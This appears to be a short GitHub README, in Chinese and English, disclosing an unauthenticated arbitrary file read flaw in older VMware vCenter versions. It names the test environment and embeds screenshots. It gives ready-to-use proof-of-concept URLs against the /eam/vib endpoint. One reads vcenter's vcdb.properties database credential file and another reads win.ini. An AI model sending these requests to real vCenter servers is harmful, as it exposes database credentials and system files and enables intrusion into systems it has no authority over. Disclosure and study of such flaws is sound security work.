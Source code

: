 # VMware vCenter 低版本存在未授权任意文件读取漏洞
# Arbitrary File Read vulnerability in VMware vCenter(Unauthenticated)

![](./vmware.gif)

## Poc from:
https://twitter.com/ptswarm/status/1316016337550938122

e.g.

```
https://www.jas502n.com/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
https://www.jas502n.com/eam/vibd?id=C:\Windows\win.ini
```

测试环境：

`VMware vFabric tc Runtime 2.9.7.RELEASE/7.0.55.A.RELEASE`
![](info.png)

![](./vmware.png)
![](./vsphere-client.png)
![](./eam_vib.png)
![](./win.png)
![](./eam_vib_burp.png)
